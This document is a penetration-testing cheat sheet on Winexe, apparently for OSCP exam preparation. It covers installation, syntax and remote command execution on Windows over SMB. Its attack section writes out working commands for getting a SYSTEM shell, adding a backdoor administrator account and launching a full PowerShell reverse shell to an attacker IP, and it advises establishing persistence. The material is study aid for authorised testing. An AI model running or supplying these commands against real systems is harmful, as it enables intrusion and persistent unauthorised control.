 # Winexe - Remote Windows Command Execution

Winexe is a powerful tool that allows you to execute commands on Windows systems remotely from a Linux machine. It uses the SMB protocol and functions similarly to PsExec in Windows environments.

## Installation

```bash
# On Kali Linux
sudo apt-get update
sudo apt-get install winexe

# If not available in repositories, build from source:
git clone https://github.com/skalkoto/winexe.git
cd winexe/source
./waf configure
./waf build
sudo cp build/winexe /usr/local/bin/
```

## Basic Usage

```bash
# Basic syntax
winexe [options] //IP_ADDRESS 'command'

# Execute command as current user
winexe -U 'DOMAIN/username%password' //192.168.1.10 'ipconfig'

# Execute command as another user
winexe -U 'DOMAIN/username%password' --runas='DOMAIN/otheruser%otherpassword' //192.168.1.10 'ipconfig'

# Execute command with SYSTEM privileges
winexe -U 'DOMAIN/username%password' --system //192.168.1.10 'ipconfig'

# Execute interactive command prompt
winexe -U 'DOMAIN/username%password' //192.168.1.10 'cmd.exe'
```

## Key Options

- `-U`: Specify credentials in the format 'DOMAIN/username%password'
- `--system`: Run the command with SYSTEM privileges
- `--runas`: Run the command as a different user
- `--interactive=0|1`: Enable or disable interactive mode
- `--uninstall`: Uninstall the winexe service after execution
- `-d, --debuglevel=DEBUGLEVEL`: Set debug level (default: 0)
- `-C, --codepage=CODEPAGE`: Set codepage for DOS applications (default: 0)

## Examples for Penetration Testing

### Get SYSTEM Shell

```bash
# Get a SYSTEM shell
winexe -U 'administrator%password123' --system //192.168.1.10 'cmd.exe'
```

### Add a New Administrator User

```bash
# Create a new user and add to Administrators group
winexe -U 'administrator%password123' --system //192.168.1.10 'net user hacker Password123! /add && net localgroup administrators hacker /add'
```

### Execute PowerShell Commands

```bash
# Run PowerShell command
winexe -U 'administrator%password123' --system //192.168.1.10 'powershell -command "Get-Service | Where-Object {$_.Status -eq \"Running\"}"'
```

### Establish Reverse Shell

```bash
# Download and execute reverse shell using PowerShell
winexe -U 'administrator%password123' --system //192.168.1.10 'powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient(\"192.168.1.5\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
```

## Advantages for OSCP

- Execute commands remotely without installing additional software on the target
- Gain SYSTEM privileges directly when you have admin credentials
- Perform tasks like adding users, changing settings, or executing scripts without RDP
- Works well in environments where PowerShell might be restricted
- Run commands silently without user awareness

## Limitations

- Requires valid credentials with appropriate permissions
- Leaves logs on the target system
- May be blocked by firewalls or strict security policies
- Requires SMB port (445) to be accessible

## Alternatives

- **Impacket's psexec.py**: Python implementation with similar functionality
- **Metasploit's psexec module**: Similar functionality with more attack options
- **CrackMapExec**: Includes similar features as part of its toolkit
- **Evil-WinRM**: Better for PowerShell remote management when WinRM is available

## OSCP Exam Tips

For the OSCP exam:
1. Use winexe to quickly establish command execution after obtaining valid credentials
2. Remember the `--system` flag to gain SYSTEM privileges immediately
3. Practice running different types of commands, especially those that establish persistence
4. Be aware that winexe creates a service on the target that may be logged or detected 